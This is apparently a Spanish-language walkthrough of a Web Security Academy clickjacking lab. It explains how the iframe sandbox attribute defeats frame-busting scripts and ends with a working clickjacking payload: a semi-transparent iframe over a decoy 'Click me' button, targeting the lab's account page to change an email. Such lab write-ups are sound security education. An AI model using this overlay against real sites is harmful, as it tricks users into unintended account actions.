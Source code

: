 Una `protección del lado del cliente`, aplicada a través del `navegador web`, es el uso de `scripts de bloqueo de iframes`. Estos pueden implementarse mediante `complementos o extensiones de JavaScript` propietarias del `navegador`, por ejemplo, `NoScript`

Los `scripts` suelen diseñarse para realizar algunos o todos los siguientes `comportamientos`

- `Verificar y hacer cumplir` que la `ventana actual de la aplicación` sea la `ventana principal o superior`
    
- `Hacer visibles` todos los `iframes`
    
- `Prevenir clics` en `iframes invisibles`
    
- `Interceptar y alertar` al `usuario` sobre posibles `ataques de Clickjacking`

Las `técnicas de frame busting` suelen ser `específicas del navegador y la plataforma` y, debido a la `flexibilidad de HTML`, los `atacantes` pueden `eludirlas fácilmente`. Como los `frame busters` son `JavaScript`, la `configuración de seguridad del navegador` puede `impedir su ejecución` o incluso el `navegador` podría `no ser compatible con JavaScript`

Una `estrategia eficaz` para los `atacantes` contra los `frame busters` es el uso del `atributo sandbox` de `iframe` en `HTML5`. Cuando se configura con los valores `allow-forms` o `allow-scripts` y se `omite el valor allow-top-navigation`, el `script de frame busting` puede ser `neutralizado`, ya que el `iframe` no puede `verificar` si es la `ventana superior` o no

```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Los valores `allow-forms` y `allow-scripts` permiten `acciones específicas` dentro del `iframe`, pero `deshabilitan la navegación de nivel superior`. Esto `inhibe el comportamiento de frame busting` mientras permite la `funcionalidad` dentro del `sitio web objetivo`

Una vez sabemos esto, nos dirigimos al `Exploit server` y `pegamos` el `nuevo exploit`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.3;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a6a0005048fd811816ed403009c00d9.web-security-academy.net/my-account?email=pedro@gmail.com" sandbox="allow-forms"></iframe>
```
